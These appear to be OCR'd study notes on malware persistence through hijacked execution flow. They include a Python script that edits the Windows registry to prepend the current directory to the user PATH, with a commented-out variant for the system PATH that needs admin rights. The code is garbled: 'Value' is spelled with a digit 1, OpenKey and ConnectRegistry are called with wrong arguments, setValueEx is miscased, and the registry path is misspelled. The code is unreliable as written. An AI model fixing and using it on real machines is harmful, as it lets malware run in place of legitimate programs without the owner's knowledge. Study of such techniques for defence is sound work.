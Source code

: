 # Hijack Execution Flow

- Malware can achieve persistence by causing it
to be run instead of legitimate system
processes.
- This can be accomplished in a number of
different ways
    
    — Changing system path
    — Exploiting DLL search order
    
    ![Untitled](Hijack%20Execution%20Flow%2081a5932ca9ae4604b20d3a8a6b1ed9a7/Untitled.png)
    
    ### Modify the system paths to insert path for exe in a path of exesting exe
    
    ### **Enviroment variables**
    
    ```python
    import os, winreg
    def readPathVa1ue (reghive , regpath) :
        reg = winreg.ConnectRegistry(None , reghive)
        key = winreg.OpenKey (reg , winreg.KEY_READ)
        index = 0
        while True:
            val  = winreg.EnumVa1ue (key, index)
            if val[0] == "Path":
                return val[1]
            index +=1
    
    def editPathVa1ue (reghive , regpath, targetdir) :
        path = readPathVa1ue(reghive, regpath)
        newpath = targetdir + ";" + path
        reg = winreg.ConnectRegistry(None, regpath)
        key = winreg.OpenKey(reg , regpath , access = winreg.KEY_SET_VALUE)
        winreg.setValueEx(key, "path", 0 , winreg.REG_EXPAND_SZ, newpath)
    
    # Modify user path
    reghive = winreg.HKEY_CURRENT_USER
    regpath = "Environment"
    targetdir = os.getcwd()
    
    editPathVa1ue(reghive,regpath,targetdir)
    
    # Modify system path NEED Admin level on windows
    # reghive = winreg.HKEY_LOCAL_MACHINE
    # regpath = "SYSTEM\CurrentContrlSet\Control\Session Manger\Environment"
    # targetdir = os.getcwd()
    # editPathVa1ue(reghive,regpath,targetdir)
    ```